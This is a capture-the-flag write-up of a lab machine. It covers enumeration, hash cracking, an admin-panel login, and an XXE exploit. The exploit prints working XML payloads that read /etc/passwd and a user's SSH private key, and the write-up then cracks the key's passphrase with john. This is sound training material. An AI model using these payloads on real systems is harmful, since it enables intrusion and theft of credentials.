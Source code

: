 Starting with an Nmap scan;

![mustanmap](https://user-images.githubusercontent.com/64267672/127815548-b5f10bb9-84b5-46a2-b2a7-27f2d002834e.png)

so we visit the webpage on port 80

![musta80](https://user-images.githubusercontent.com/64267672/127815786-1ae4cd89-c131-4788-b0fb-c7cd92c9f3b0.png)

But we find nothing interesting so we bruteforce for directories;

![mustffuf](https://user-images.githubusercontent.com/64267672/127816784-ada8ed34-9668-4349-b722-bf8b32da08ad.png)

Upon visiting /custom directory we find a js folder & inside we find an interesting Users.bak file

![mustacustom](https://user-images.githubusercontent.com/64267672/127946906-222dd700-0b3c-45b4-b16c-0aba702af3f5.png)

Downloading the file & upon inspecting, we find out it contains a user "Admin" & a password hash (cropped here)

![mustapassha](https://user-images.githubusercontent.com/64267672/127947702-ac1df379-536d-4a52-9661-594ab35cfed0.png)


we can crack this hash on crackstation.net to get the plaintext password

Now we can try to ssh with known creds now but it doesn't work so Looking back at our Nmap scan we see there's another web server hosted on port 8765

![must8765](https://user-images.githubusercontent.com/64267672/127948309-5ea4b555-910c-4573-a0e9-d6172839c8c8.png)


Now trying the creds here again and we get logged in 


![mustalogged](https://user-images.githubusercontent.com/64267672/127948561-7c3ee270-8ed9-464c-8757-f27692f9aff5.png)


I tried sending a random text at first like "hello" and noticed a few things;

(1) It has a parameter called xml
(2) a url in comment Example=/auth/dontforget.bak
(2) Also in the html comment i see the user has an ssh key i'm suppose to get somehow 

so i have to test for xxe here apparently

![mustburp](https://user-images.githubusercontent.com/64267672/127949306-0398f4ea-e328-44ac-b85f-3664730e461f.png)

on the webpage we see we can make a valid xml request with the name, author & comment parameter and so we have to provide that

so sending a GET request to the url from the html comment we find an example we can use going forward

And with this now we can read the /etc/passwd file and also grab the ssh keys from this machine

```<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
   <!ELEMENT data ANY >
   <!ENTITY name SYSTEM "file:///etc/passwd" >]>
<comment>
  <name>&name;</name>
  <author>Barry Clad</author>
  <com>comments</com>
</comment>```

![mustetc](https://user-images.githubusercontent.com/64267672/127950858-dd980ac2-3048-4163-9b7c-934bcc021e04.png)

and now the ssh key 

```<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
   <!ELEMENT data ANY >
   <!ENTITY name SYSTEM "file:///home/barry/.ssh/id_rsa" >]>
<comment>
  <name>&name;</name>
  <author>Barry Clad</author>
  <com>comments</com>
</comment>```

![mustssh](https://user-images.githubusercontent.com/64267672/127951064-94dcfe73-ce2c-4bd0-84bb-d95fae2bf4c0.png)

now we can save the file locally and try to ssh but we find out the key password protected

For this we can use the ssh2john tool to convert the key to hash & then crack hash with john

```┌──(Nerdy㉿kali)-[~]
└─$ john hash --wordlist=/usr/share/wordlists/rockyou.txt                   
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
ur****es       (id_rsa)
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:16 DONE (2021-08-03 03:09) 0.05885g/s 844125p/s 844125c/s 844125C/sa6_123..*7¡Vamos!
Session completed```

After changing the perms for the key Now we can ssh into the Barry machine successfully using the key & password;




